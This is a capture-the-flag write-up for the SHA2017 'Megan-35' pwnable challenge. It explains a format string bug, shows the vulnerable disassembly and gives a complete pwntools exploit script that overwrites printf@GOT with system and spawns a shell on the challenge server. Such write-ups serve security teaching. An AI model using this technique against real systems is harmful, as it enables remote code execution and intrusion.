 # Megan-35
#### Writeup by hgarrereyn
* **Pwnable**
* *200 points*
* Description: We created our own Megan-35 decoding tool, feel free to test it. System is running Ubuntu 16.04, ASLR is disabled.
#### Files:
* [megan-35](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/c99bfdb5c01af5443bb952d560012d09a4d0e32e/2017/SHA2017CTF/problems/pwnable/megan-35/megan-35)
* [libc.so.6](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/c99bfdb5c01af5443bb952d560012d09a4d0e32e/2017/SHA2017CTF/problems/pwnable/megan-35/libc.so.6)
* [exploit script](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/c99bfdb5c01af5443bb952d560012d09a4d0e32e/2017/SHA2017CTF/problems/pwnable/megan-35/solve.py)

# Solution

This was a pretty standard format string attack. The approach I used was to perform four writes at once to do the following:
- replace `printf@GOT` with `<system>`
- replace the saved return pointer with `<main>`

Then the program would effectively loop and call `system(user_input)` instead of `printf(user_input)`.

# Vulnerable Code

The actual vulnerability occured here near the end of `<main>`:

```x86asm
             __pic:
0804854c         pop        edx
0804854d         pop        ecx
0804854e         push       eax                                                 ; argument "src" for method j_strcpy
0804854f         push       ebx                                                 ; argument "dst" for method j_strcpy
08048550         call       j_strcpy
08048555         mov        dword [esp+0x238+var_238], ebx                      ; argument "format" for method j_printf
08048558         call       j_printf
0804855d         mov        edx, dword [ebp+var_1C]
08048560         xor        edx, dword [gs:0x14]
08048567         je         loc_804856e
```

The only gotcha was that the input was decoded using Megan-35 before it was printed. It turns out that Megan-35 is just Base64 with a different charset (I really have no idea why it exists).

Anyways, I was able to use the following python script to encode text:

```py
import base64

char_megan35 = "3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5"
char_base64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
char_map = dict(zip(char_base64, char_megan35))

def m35encode(s):
    b = base64.b64encode(s)
    return ''.join([char_map[x] for x in b])
```

# Crafting the Exploit

Using gdb to examine memory, I could see that the encoded text was stored on the stack starting at offset `7`. In order to maintain the address pointers, I sent them as plaintext. However, the actual format string attack had to be encoded with Megan-35.

Since ASLR was disabled, it was easy to leak a libc address and calculate the address of system using the provided libc.so binary.

Using the same method, you could leak a stack pointer and calculate the offset to the return address.

Once you had both these values, you could craft a 4 part format string attack (writing two bytes with `$hn`) and get a shell.

# Script
[view raw](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/c99bfdb5c01af5443bb952d560012d09a4d0e32e/2017/SHA2017CTF/problems/pwnable/megan-35/solve.py)

```py
# by hgarrereyn

from pwn import *

import base64
import binascii

char_megan35 = "3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5"
char_base64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
char_map = dict(zip(char_base64, char_megan35))

def m35encode(s):
    b = base64.b64encode(s)
    return ''.join([char_map[x] for x in b])


def r():
    print sock.recvline()

# ---

sock = remote('megan35.stillhackinganyway.nl', 3535)

sock.recvline()

# Overwrite printf@GOT with <system>
# system = 0xf7e50da0
system = 0xf7e53940
system_low = (system & 0xFFFF)
system_high = (system & 0xFFFF0000) >> 16

main = 0x080484ea
main_low = (main & 0xFFFF)
main_high = (main & 0xFFFF0000) >> 16

printf_got = 0x0804a00c

buff = ''

buff += '\x08\x04\xa0\x0c'[::-1] # printf@GOT
buff += '\x08\x04\xa0\x0e'[::-1] # printf@GOT + 2

buff += '\xff\xff\xdd\xcc'[::-1] # saved return address
buff += '\xff\xff\xdd\xce'[::-1] # saved return address + 2

buff_e = '' # stuff that needs to be encoded

# These need to be ordered from lowest to highest write value
buff_e += ('%' + str(main_high - 12) + 'x%10$hn')
buff_e += ('%' + str(system_low - main_high) + 'x%7$hn')
buff_e += ('%' + str(main_low - system_low) + 'x%9$hn')
buff_e += ('%' + str(system_high - main_low) + 'x%8$hn')

buff += m35encode(buff_e)

sock.sendline(buff)

c = sock.clean(timeout=1)

sock.sendline(m35encode('sh'))

print "Have a shell:"

sock.interactive()
```